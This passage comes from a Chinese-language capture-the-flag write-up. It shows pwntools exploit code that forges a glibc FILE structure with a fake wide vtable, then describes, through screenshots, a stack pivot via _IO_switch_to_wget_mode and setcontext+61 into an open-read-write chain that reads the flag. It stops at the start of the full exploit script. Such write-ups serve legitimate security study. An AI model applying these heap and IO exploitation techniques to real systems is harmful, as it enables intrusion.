    ```python
   file+= p64(0) * 16 + p64(stack_change) + p64(ret)
   file+= p64(0) * 4
   file+= p64(_wide_vtable)          #_wide_vtable
   file+= p64(0)   #填充
   # stack change
   file+= orw
   
   edit(0,file)
   p.sendline(b"5")
   p.interactive()
   ```

   看一下伪造好后的堆：

   ![image-20240903212044439](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032120609.png)

   ![image-20240903212109523](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032121624.png)

   ![image-20240903212635072](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032126309.png)

   下面试栈迁移的过程：

   绕过检查 进入 _IO_switch_to_wget_mode

   ![image-20240903212747400](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032127503.png)

   在 函数中完成 rdi --> rdx 值的转换，并成功衔接到 setcontext+61：

   ![image-20240903213428197](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032134371.png)

   进入setcontext + 61，开头完成栈迁移：

   ![image-20240903213504978](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032135084.png)

   push rcx 入栈 ret指令地址：

   ![image-20240903213542446](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032135577.png)

   最后衔接到堆上布置好的ORW：

   ![image-20240903213655674](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032136820.png)

   最后读取到flag：

   ![image-20240903213717672](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032137780.png)

   

3. 完成EXP，这里就只打了本地，因为远程泄漏出来的libc地址根本不对，应该是给的libc版本和远程的不符合：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   # p = remote("node5.anna.nssctf.cn",28430)
   p = process("./vuln")
   # libc = ELF('./lib/libc_2.31-0ubuntu9.2_amd64.so')
   
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/libc-2.32.so')
   # elf = ELF("./pwn")
   
   def add(size,index):
       p.sendlineafter(b'>','1')
   ```